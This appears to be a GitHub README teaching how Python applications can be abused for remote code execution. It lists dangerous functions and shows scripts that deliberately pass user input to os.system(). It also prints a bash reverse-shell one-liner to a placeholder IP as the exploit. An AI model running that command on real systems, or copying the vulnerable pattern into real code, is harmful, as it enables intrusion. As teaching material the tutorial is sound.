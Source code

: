 # Python-Security-Principles
Fundamental concepts and principles on how Python application can be abused to gain remote code execution or be used to perform any type of unattended functionality

Python is an interpreted high-level general-purpose programming language. Python's design philosophy emphasizes code readability with its notable use of significant indentation. A lot of modern web application use python , especially when utilizing API endpoints. It is critical to secure these web application and API endpoints to ensure that the web application behaves as expected

When validating secure code , always examine the code to determine what paramter is used to accept user input , on what route is it mapped to and how the user supplied data gets processed during the web applications execution flow. Never pass input that the user has control over to a paramater that gets wrapped around a dangerous function() that could interact with the underlying OS and execute code.

The following Python fucntions() can be abused to execute code, exfiltrate data, perform unattended functionality or bypass authentication pages

- os.system()
- eval()
- exec()
- input()
- str.format()
- Pickle()
- Jinja2/Tornado 
- PyYaml 

os.system()

Allows the Python script/program to execute shell commands on the underlying OS. Below is a basic example of how this function() can be used.

Basic Script - Accepts user input and saves it in the txt variable and then passes the txt variable to os.system()
```
#!/usr/bin/python

import os

txt = input("Enter Command to Execute?: ")
os.system(txt)
```
Another example of a similiar program that is not properly validated. The below code asks for a name , but passes the input to os.system(). This is a basic example of how the context of the program does not match it's functionality. 
```
#!/usr/bin/python

import os

txt = input("What is your name?: ")
os.system(txt)
```
Explioting the above code. Since the entire input variable is send to os.system(), the attacker can just provide a reverse shell one-liner instead of a valid name
```
What is your name?: bash -i >& /dev/tcp/10.10.10.10/9999 0>&1

//Replace IP
//Replace Port
```
The following code accepts user input from the public and passes it to os.system(), allowing the web application to be vulnerable to code execution
```



```
